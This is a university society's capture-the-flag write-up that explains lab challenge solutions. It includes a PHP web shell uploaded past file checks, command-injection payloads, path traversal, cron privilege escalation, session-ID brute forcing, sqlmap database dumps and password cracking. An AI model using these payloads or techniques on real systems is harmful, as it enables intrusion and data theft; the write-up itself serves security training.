






# Selection CTF 2017/18 Write Up
On 01/02/2018 the Bournemouth University Cyber Security Society ran a capture the flag event for the purpose of selecting members for each of the three society CTF teams. In this article, I will detail and demonstrate the solutions to each of the challenges found during the event. A separate article will be released covering the creation process of each challenge.

Several challenges can be completed in more than one way, while some of the possible solutions are outlined here there may be more that have not been considered.

***NOTE:*** While I created all of the challenges for this CTF I have approached this write up as if I were tackling the challenges for the first time, this way I have conducted the usual steps I would normally take when solving challenges whose solution I don't already know.

A copy of this write up can also be found at [lucidunicorn.xyz/2018/02/10/selection-ctf/](https://lucidunicorn.xyz/2018/02/10/selection-ctf/)

## CR001
This challenge provided the code below and stated that a service on port 3000 would return the flag once it received the correctly hashed string.

```python
blake2 = hashlib.blake2b()
sha256 = hashlib.sha256()
md5 = hashlib.md5()
message = '{} #hacktheplanet'.format(random.randrange(100,200))

md5.update(base64.b64encode(message.encode()))
sha256.update(md5.hexdigest().encode())
blake2.update(sha256.hexdigest().encode())
```

First off I connect to the server to see how it behaves:
```terminal
nc 192.168.13.44 3000
```
Initially, it didn't look like there was anything happening but after sending a string to test the response I get ``Incorrect``.

Examining the code I can see that the base string that needs to be sent is a number between 100 and 200 followed by ``#hacktheplanet``. The string is then encoded using base64, the base64 string is then MD5 hashed which in turn is hashed using SHA256 and finally, the SHA256 hash is hashed with BLAKE2.

To solve this challenge I put together a Python script that connects to the server on port 3000, generates every possible base string value (100-200) and hashes each string using the process shown in the code snippet provided before sending each attempt to the server and checking the response.

```python
import hashlib
import base64
import os
from twisted.internet import reactor
from twisted.internet import protocol

class MessageSender(protocol.Protocol):
  def __init__(self):
    self.count = 100

  def connectionMade(self):
    self.sendMessage()

  def sendMessage(self):
    blake2 = hashlib.blake2b()
    sha256 = hashlib.sha256()
    md5 = hashlib.md5()
    message = '{} #hacktheplanet'.format(self.count)

    md5.update(base64.b64encode(message.encode()))
    sha256.update(md5.hexdigest().encode())
    blake2.update(sha256.hexdigest().encode())

    self.transport.write(blake2.hexdigest().encode())
    self.count += 1

    if self.count > 200:
      self.transport.loseConnection()

  def dataReceived(self, data):
    print(data.decode())

    if data.decode() != 'Incorrect':
      self.transport.loseConnection()

    self.sendMessage()

class MessageSenderFactory(protocol.ClientFactory):
  def buildProtocol(self, address):
    return MessageSender()

  def clientConnectionLost(self, connector, reason):
    os._exit(0)

if __name__ == '__main__':
  reactor.connectTCP('192.168.13.44', 3000, MessageSenderFactory())
  reactor.run()

```
This script uses the Twisted Python library, a popular networking library for Python that allows me to quickly build a basic client to connect to the server and send it messages. After letting the script run for about a minute the server sent back the flag.

An alternate solution written in Python can also be used for this challenge.

```python
import socket
import hashlib
import base64

if __name__ == '__main__':
  sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
  sock.connect(('localhost', 3000))

  for i in range(100, 200):
    blake2 = hashlib.blake2b()
    sha256 = hashlib.sha256()
    md5 = hashlib.md5()
    message = '{} #hacktheplanet'.format(i)

    md5.update(base64.b64encode(message.encode()))
    sha256.update(md5.hexdigest().encode())
    blake2.update(sha256.hexdigest().encode())

    sock.send(blake2.hexdigest().encode())
    response = sock.recv(1024)

    if response.decode() != 'Incorrect':
      print(response.decode())
      sock.close()
      exit()
```

## CRYPT001
This challenge presents a string that is clearly base64 encoded, the give away is the ``==`` at the end, ``==`` is commonly used by base64 as padding.

```
GteoG197jqC6DKoSZtCYBrYUhOQzF3P2CBkBhD1tCtQakOI3VEM9Jn==
```

The first thing I did was to try and decode the string but I just end up with a handful of unreadable characters so maybe it's not that simple. Instead, let's take a look at the hint provided by this challenge:

```
All roads lead to Rome
```

OK, so there was also Caesar cipher to deal with here. Knowing that Caesar ciphers typically only deal with letters I headed over to trusty [rot13.com](http://rot13.com) and started iterating the different options and then decoding the result until finally at ROT19 I got:

```
ZmxhZ197cjV6WDhLSmVRUkRNaHJsY3I2VUdUaW1mVmJtdHB3OXF9Cg==
```

Decoding this from base64 revealed the flag.

## CRYPT002
***NB:*** An error was found in the task outline for this challenge whereby the decryption password wasn't provided.

This challenge provided an encrypted file and stated that it needed to be decrypted in order to find the flag, AES-256-CBC is often used for challenges like this and this is further confirmed by the hint:

```
The US Government uses this algorithm to encrypt their Top Secret documents
```

This was definitely AES-256 so I ran the following command against the downloaded file and entered the password ``Z5v3REBy``.

```terminal
openssl aes-256-cbc -d -a -in book.enc -out book
```

Opening the file I saw that it was an e-book entitled ``Hackers, Heroes of the Computer Revolution`` by ``Steven Levy``. Rather than scroll through the whole file, I used grep to look for the flag:

```terminal
grep "flag_" book
```

## CRYPT003
This challenge presented a service running on port 3001 that was apparently passing a hidden message. Connecting to the port revealed that it was singing Big Shaq's ``Man's Not Hot``. Interestingly some of the lines had either a ``.`` or a ``-`` appended to them while the first line had an ``[`` appended to it. It appeared that there was a message being passed in Morse code with square brackets signifying the start and end of the message so I put together a Python script to connect to the server and extract the entire message.

```python
import re
import os
from twisted.internet import reactor
from twisted.internet import protocol

class Receiver(protocol.Protocol):
  def __init__(self):
    self.message = []

  def dataReceived(self, data):
    line = data.decode()
    pattern = re.compile(r'( \.\n)|( -\n)')
    match = re.search(pattern, line)

    if match is not None:
        self.message.append(match.group(0)[1])

    if ']' in line:
        print(''.join(self.message))
        self.transport.loseConnection()

class ReceiverFactory(protocol.ClientFactory):
  def buildProtocol(self, address):
    return Receiver()

  def clientConnectionLost(self, connector, reason):
    os._exit(0)

if __name__ == '__main__':
  reactor.connectTCP('localhost', 3001, ReceiverFactory())
  reactor.run()

```
After a few minutes, the script dumped out the entirety of the message it had retrieved from the server but trying to decode it as Morse code didn't work. There is something else that is made up of only two different values; binary! After a small amount more Python I translated the message from the server into two binary values, one where I translated each ``.`` into a ``1`` and another where I translated each ``.`` into a ``0``.

```python
if __name__ == '__main__':
  message = '.--..--..--.--...--....-.--..---.-.-----.----.--..--.-.-.-....--.-..-.--.---.-....--.....-.-..-..--..-...-..----.--...--.-...--..--.-..-..---..-.----.-..-..----..--...-.-.-.-...-..-....-.-.-...-...-.-.---...-.-...-...---...-..--.....-..--.-..---....--..---.-...-.-.--..---.--...--.--..-.-.---.-...---..--.-----.-'
  option_a = ''
  option_b = ''

  for char in message:
    if char == '.':
      option_a += '1'
      option_b += '0'
    else:
      option_a += '0'
      option_b += '1'

  print('Option A:', option_a)
  print('Option B:', option_b)
```
Copying the result of this script into a binary to ASCII converter like [this one](https://www.branah.com/ascii-converter) I found that the second translation converted to reveal the flag.


## DF001
This first DF challenge provided a PCAP along with the goal of finding a valid login for a website located somewhere within the capture file. Opening the PCAP file in Wireshark revealed a whole bunch of network traffic, based on the challenge outline I knew that I was looking for HTTP traffic given that HTTP is the protocol used to serve website related files, so the first step was to add a filter by typing ``http`` into Wireshark's filter bar, the results can be narrowed down further by filtering only POST requests:

```
http && http.request.method == "POST"
```

Examining the results after applying the filters I didn't see an immediately obvious answer, but there were several login attempts for different accounts. The next step was to start following the HTTP streams for the various POST requests by right-clicking on each POST request and selecting ``HTTP Stream`` under ``Follow``. After examining several of the streams I found the flag is returned as part of the page body for the successful login attempt.

## DF002
This next PCAP challenge focused on traffic going to an FTP server so I immediately applied the ``ftp`` filter so that only the FTP request and response traffic was displayed. Looking through the results I could see that someone logged into the FTP server, listed the available files, downloaded a file called ``bank_details.txt``, uploaded a script called ``lulz.sh`` followed by a script called ``malwarez.sh``, the ``malwarez.sh`` file was then deleted and a file called ``msg.txt`` was uploaded before the attacker listed the files once more and then disconnected. At this point, it was time to start looking at the actual data going to and coming from the FTP server as the commands had not revealed the flag so I switched the Wireshark filter to ``ftp-data``. Examining the data traffic I could see the contents of each file along with the directory listings from where the attacker listed the available files, in one of these transmissions I found the flag.

## DF003
For this final PCAP task, the challenge stated that the flag was contained in an image somewhere within the captured traffic. There are several ways to solve this challenge, the flag can be found by locating the transmission frames for each image and examining the hex for each one until the flag is located. Another way was to extract the images by using Wireshark's object extraction facility and selecting ``HTTP``, this provided a list of files that were transferred over HTTP within the capture file and can automatically extract them. After quickly hex dumping each image file with ``hd`` I found the flag appended to one of the images.

## DF004
This final DF challenge provided an image file with the statement that there was something significant about it. The key to this challenge is identifying the massive keyword in the challenge itself ``significant``, this was a really big pointer to either most significant bit (MSB) or least significant bit (LSB) steganography, given that LSB is typically the more common option I started there. A quick google search for ``LSB Steganography`` lead me to the [LSB-Steganography](https://github.com/RobinDavid/LSB-Steganography) project on GitHub so I started off by cloning the repository:

```terminal
git clone https://github.com/RobinDavid/LSB-Steganography
```

Once the repo finished downloading I simply ran the downloaded image through it to reveal the flag:

```terminal
LSBSteg.py decode -i 1337-h4ck3r.png -o result
```

## INF001
This was a nice quick challenge, I know that the default port for an FTP server to be listening on is 21 so I ran an Nmap scan against port 21 on the target machine with the banner script enabled and immediately found the flag.

```terminal
nmap -sV --script banner -p 21 192.168.13.44
```

## INF002
The challenge here was to connect to the service on port 3002 and send the correct (unknown) four digit-pin in order to get the flag, it was time for another Python script (of course these scripts can be written in other languages instead).

```python
import os
from twisted.internet import protocol
from twisted.internet import reactor

class PinSender(protocol.Protocol):
  def __init__(self):
    self.pin = 0

  def connectionMade(self):
    self.sendPin()

  def dataReceived(self, data):
    if 'Incorrect' not in data.decode() and 'Submit' not in data.decode():
      print(data.decode())
      self.transport.loseConnection()
    else:
      self.sendPin()

  def sendPin(self):
    pin = str(self.pin).zfill(4)
    self.transport.write(pin.encode())
    self.pin += 1

class PinSenderFactory(protocol.ClientFactory):
  def buildProtocol(self, address):
    return PinSender()

  def clientConnectionLost(self, connectory, reason):
    os._exit(0)

if __name__ == '__main__':
  reactor.connectTCP('192.168.13.44', 3002, PinSenderFactory())
  reactor.run()
```

An alternate Python script can also be used here instead:

```python
import socket

if __name__ == '__main__':
  sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
  sock.connect(('192.168.13.44', 3002))

  for pin in range(10000):
    send_pin = str(pin).zfill(4)
    sock.send(send_pin.encode())
    data = sock.recv(1024)

    if 'Incorrect' not in data.decode():
      print(data.decode())
      sock.close()
      exit()
```

This challenge could also be completed with the following bash script but it's a slightly messier solution as it has to open a new connection for each attempt and also relies on a client-side timeout to ensure ``nc`` doesn't cause the script to hang indefinitely which makes it much slower than the more reactive Python scripts above.

```bash
#!/bin/bash
for i in {0..9}{0..9}{0..9}{0..9}
do
  echo $i | nc -w 1 localhost 3002
done

```

Each solution takes several minutes to run but eventually reveal the flag.

## INF003
The flag for this challenge was stored in the file ``/root/flag.txt`` but the challenge only provided login details for a low-level user account called ``remote``, this challenge requires privilege escalation to complete. To kick things off I logged in to the server using SSH and the login details provided by the challenge and then proceeded to poke around looking for anything I could use to escalate my privileges, this included examining environment variables, the permissions my account had, the group(s) my account was in, the running processes, the Linux distribution and version and a whole host of other useful information, [g0tmi1k](https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/) provides a very useful list of checks and information gathering techniques for Linux privilege escalation. In this case I found something interesting when I examined ``/etc/crond.d/`` a scheduled cron job is running the script ``/usr/sbin/runner.sh``, when I examined the script I found that it ran any file with a ``.sh`` extension that was placed in the directory ``/usr/sbin/scheduled/``, which allows anyone to write to it. Because the ``/usr/sbin/runner.sh`` script is being run as the root user by ``/etc/cron.d/scheduled_backup`` any script it in turn runs will also be run as the root user, well that's exactly what I needed, I quickly added a new directory in ``/tmp`` and set about writing a small script to copy the file I was after.

```bash
#!/bin/bash
cp /root/flag.txt /tmp/lucidunicorn/flag.txt
```

Then I simply copied my new script into ``/usr/sbin/scheduled/`` and waited until the cron job ran again, after a few seconds the ``flag.txt`` file showed up in ``/tmp/lucidunicorn/``.

## INF004a-e
Challenges A-E revolve around cracking a series of password hashes recovered from a Linux server, coupled with the salt length depicted by ``$6$`` this information reveals that they are SHA512 hashes. Brute forcing a shadow file like this could take months or years to complete depending on the password length and complexity so I decided to stick with a dictionary attack using the rockyou wordlist, the hint further confirms that this is the way to go:

```
We will, we will...
```

After downloading the file I fired up John the Ripper and let it run in the background for a bit, the hashes were broken one by one over the space of about 50 minutes.

```terminal
john --wordlist="/usr/share/wordlists/rockyou.txt" shadow
```

## WEB001
Moving on to the web challenges and we start off with a page showing a picture of the Cookie Monster with the challenge stating that the page needs something more before giving up the flag. Given the picture, this challenge was pretty much guaranteed to have something to do with cookies, I started off by setting a couple of cookies to see if anything happened using Firefox's developer console:

```javascript
document.cookie = 'milk=cookie';
document.cookie = 'milk2=cookie';
```

Those two cookies don't do anything but the Cookie Monster is well known for his love of cookies so maybe he just needed more. There's a couple of ways to pull this off, the developer console can be used to run JavaScript to do the work or a Python script (or a script in another language if you wish) can be used. Below is the JavaScript solution to this challenge, once complete I refreshed the page and was given the flag.

```javascript
for(i = 0; i < 500; i++) {
  document.cookie = i + '=milk';
}
```

Alternatively, the following Python script also solves the challenge:

```python
import requests

if __name__ == '__main__':
  url = 'http://192.168.13.44:3004'
  cookies = {}

  for i in range(500):
    cookies[i] = 'milk'

  response = requests.get(url, cookies=cookies)
  print(response.text)
```

## WEB002
The task for this challenge was to find the flag that was hidden somewhere within a popular library that is connected to the site linked in the challenge outline. After heading over to the site I took a look at the source code and opened up the files from the included libraries. Given that the flag format is the same for all the challenges ``flag_{random_value}`` all I had to do was search each file for ``flag_{`` and see if anything came up, which it did in the jQuery file.

## WEB003
The outline for this challenge gave away a hint as to where the flag could be found, the task states that it would be useful to know where all the pages for the site are, what's something that tells you where things are? A map! Some websites maintain a sitemap file that outlines the location of all or most of their pages, typically this file at the root of a website and is called ``sitemap.xml``, navigating to this file (``http://192.168.13.44:3005/sitemap.xml``) revealed the next flag.

## WEB004
Next up, this challenge says that one of the pages has too much overhead, that's an interesting word to use, perhaps something to do with the response headers? To find out I opened up the Firefox's developer console, went to the network tab and started checking the headers being sent by the server for each page, over on the about page I found the flag sat in the response headers.



## WEB005
This challenge says exactly where its flag is, it's in ``/usr/share/token/flag.txt`` but with only a single webpage that shows an image of the characters from the 1995 film Hackers, how on earth can the flag be retrieved? Closer inspection of the URL reveals a possible solution, the page has a GET parameter called ``f`` whose value is a file path, checking the source code confirms that the file path is indeed being used to load the image, so I just changed the value of ``f`` to ``/usr/share/token/flag.txt``. At first, it looked like this had broken something but looking at the page source again reveals that the contents of the flag file have been printed in the image tag's ``src`` attribute.

## WEB006
This challenge also comprised of a single webpage and the challenge is to access the ``flag.txt`` file at the root of the web server (``http://192.168.13.44:3007/flag.txt``) but trying to navigate straight to the file is a no go as access to it from the browser has been restricted. Instead, I took a look at the webpage, it was just an input field with a submit button that, when pressed, would just print out anything typed into the input field. With a little thought as to what this page might be doing, I decided to start testing for a command injection vulnerability, it could have been that the page was actually passing the input value to a system level function or that the input wasn't filtered correctly and PHP code could be executed. PHP was a no go, the page's filters seemed to prevent any of the code being executed so I moved on to testing for system level injection using some of the standard techniques:

```terminal
foo"; echo hello
foo; echo hello
foo" | echo hello
foo | echo hello
foo" && echo hello
foo && echo hello
```

I won't list every attempt here but you get the idea. Nothing I tried seemed to be working so I went for another option and tried a command substitution which is a way of invoking a Linux command in a subshell, this time I got somewhere:

```terminal
foo $(echo hello)
```

Once I had command execution, getting the flag was easy:

```terminal
$(cat flag.txt)
```

## WEB007
To obtain the flag for this challenge an IP address based restriction had to be bypassed, luckily the challenge provided the IP address needed to access the flag, all that was left was to find the correct way of tricking the site. For this challenge I decided to try some of the request headers I know are used to carry IP addresses of the client making the request, often this is a technique used when accessing sites through a proxy server. I opened up Firefox's developer console, went over to the network tab and clicked on the ``Edit and Resend`` button, after entering a couple of different headers I got the flag by sending ``X-Forward-For: 175.84.146.92``.



This task can also be completed using a web proxy like Burp Suite or OWASP ZAP.



## WEB008
For this challenge, there is no information where the flag is or what needs to be done other than testing the security of an image upload website. To get started I uploaded a generic image off Google just to see how the application operates, it's pretty straightforward just enter a username and select the file to upload, I tried a couple of the standard tricks like trying to upload a non-image file in case there was validation in place (there was) and trying to upload a PHP file with multiple extensions ``.jpg.php`` but that didn't get me anywhere. Using the PHP code below I fired up ``vim`` in binary mode to start playing with file signatures.

```php
<?php phpinfo(); ?>
```

After adding the file signature for a JPEG image to the file (FFD8 & FFD9) I fired up Burp Suite and tried to upload this new file, this time, however, I changed the ``Content-Type`` of the uploaded file to ``image/jpeg`` using Burp Suite.



This time the file uploaded successfully and navigating to the newly uploaded file revealed the PHP info page I'd just managed to upload.



Now all that was left to do was modify the PHP script so I could execute commands on the server:

```php
<?php passthru($_GET['cmd']); ?>
```

Using the same technique to upload the file as last time I then navigated it and found the flag file sitting just one directory above the web server root.



## WEB009
The task for this challenge was to gain access to an administrator account on the site pointed to by the challenge in order to recover the flag, a regular user account had been provided which I used to gain some useful information on how the application managed user authentication. Sure enough after logging in to the site and having a poke around I noticed that the application seemed to have overridden the ``PHPSESSID`` cookie which is commonly used by PHP to deal with session management, typically a ``PHPSESSID`` would contain a value that looks a bit like this ``3l7r1od0ee30c2ap4n0en6l8r4`` in this case however it was set to ``98``. This sort of modification could mean that a vulnerability had been introduced by a customised session management mechanism, this one turned out to be vulnerable to session hijacking. After logging out and back in a few times and poking around a little more just in case, I remembered something that was written on the site's homepage:

```
Numbers are great! Our favourite is 937
```

Without anywhere else to start I decided to manually set the cookie to ``937`` using Firefox's developer console just in case there was an administrator account locked to that session ID:

```javascript
document.cookie = 'PHPSESSID=937'
```

Unfortunately that didn't do anything so instead I decided to test every possible session ID between 0 and 937 looking for an administrator session, for that to work I needed a way of testing the resulting page so I decided to use the customer number, if that number wasn't present in the content of a returned page then I would have found something of interest, with all that in place I put together a Python script to run the tests.

```python
import requests

url = 'http://192.168.13.44:3005/account.php';

for i in range(938):
  cookies = dict(PHPSESSID=str(i))
  response = requests.get(url, cookies=cookies)

  if '8473894028734' not in response.text:
    print('Session ID:', i)
    print(response.text)
```

It takes about a second for this script to return the flag after locating the administrator account session under the session ID 527.

## WEB010
For the final web challenge the task was to find a way to login to the linked site, visiting the site revealed nothing but a login page and some basic recon didn't turn up any interesting headers, cookies, files or otherwise, however, I did notice that the form was submitted using a POST request meaning that the actual login process was handled server side and likely involved querying a database for account validation and verification (a standard practice for login mechanisms). At this point, I decided to fire up sqlmap to evaluate the form and subsequent login process for SQL injection vulnerabilities but first I quickly grabbed the POST request sent by submitting the login form so I could craft the correct data string.

```terminal
sqlmap -u 192.168.13.44:3010 --data="username=test&password=test&submit=" --method POST --level 2 --batch
```

After a few seconds of testing I got the result I was hoping for, the username parameter was found to be vulnerable to an SQL injection attack (the password parameter is as well). Next up I ran a few iterations of sqlmap against the site to extract the available databases then the tables and columns (for demonstration purposes) of the database I was interested in.

```terminal
sqlmap -u 192.168.13.44:3010 --data="username=test&password=test&submit=" --method POST --batch --dbs
sqlmap -u 192.168.13.44:3010 --data="username=test&password=test&submit=" --method POST --batch -D web010 --tables
sqlmap -u 192.168.13.44:3010 --data="username=test&password=test&submit=" --method POST --batch -D web010 -T users --columns
```

After identifying the correct database and extracting its tables and table structure I ran one more sqlmap command to dump the contents.

```terminal
sqlmap -u 192.168.13.44:3010 --data="username=test&password=test&submit=" --method POST --batch -D web010 -T users --dump
```

With the information extracted from the database, I headed back to the target site and entered the login details for the administrator account which revealed the flag.

## MISC001
This challenge provided a GZIP file stating that the flag could be retrieved by decompressing it. After decompressing the archive about 10 times only to find that each one contained another archive in either ZIP, GZIP, TAR or BZIP2 format I decided to automate the process, after a bit of reading into some of Python's compression libraries I put together the script below to detect the compression type of a file and extract it until only a non-compressed file remained.

```python
import gzip
import bz2
import zipfile
import tarfile
import shutil
import os
import magic

def extract(target):
  extracted_file = None
  file_type = magic.from_file(target, mime=True)
  file_ext = target.rfind('.')

  if file_ext > 0:
    filename = target[:file_ext]
  else:
    filename = target

  if file_type == 'application/zip':
    with zipfile.ZipFile(target, 'r') as archive:
      extracted_file = archive.namelist()[0]

      with archive.open(extracted_file) as inner_archive:
        with open('extracted', 'wb') as f_out:
          target_contents = inner_archive.read()
          f_out.write(target_contents)
  elif file_type == 'application/gzip':
    with open(target, 'rb') as archive:
      with open('extracted', 'wb') as f_out:
        target_contents = archive.read()
        decompressed_content = gzip.decompress(target_contents)
        f_out.write(decompressed_content)
  elif file_type == 'application/x-bzip2':
    with open(target, 'rb') as archive:
      with open('extracted', 'wb') as f_out:
        target_contents = archive.read()
        decompressed_content = bz2.decompress(target_contents)
        f_out.write(decompressed_content)
  elif file_type == 'application/x-tar':
    with tarfile.TarFile(target, 'r') as archive:
      extracted_file = archive.getnames()[0]

      with open('extracted', 'wb') as f_out:
        target_contents = archive.extractfile(extracted_file).read()
        f_out.write(target_contents)
  else:
    return 0

  if os.path.isfile(target) and target != filename:
    os.remove(target)

  if os.path.isfile('extracted'):
    shutil.move('extracted', filename)
    extracted_file = filename

  return extracted_file

if __name__ == '__main__':
  target = input('File to decompress: ')
  finished = False
  count = 0

  while finished is False:
    result = extract(target)

    if result == 0:
      finished = True
      print('-- Done --')
      print('{} iterations completed.'.format(count))
    else:
      target = result
      count += 1
```

## MISC002
This quick little challenge provided a PDF document whose password needed to be cracked in order to access the document and retrieve the flag. After downloading the file I ran it through the ``pdfcrack`` tool with the rockyou wordlist which quickly found the password.

```terminal
pdfcrack -f flag.pdf -w /usr/share/wordlists/rockyou.txt
```

## MISC003
Another quick cracking challenge that, this time provided an encrypted ZIP file, the ``fcrackzip`` tool quickly found the correct password in the rockyou wordlist.

```terminal
fcrackzip -Dup /usr/share/wordlists/rockyou.txt flag.zip
```
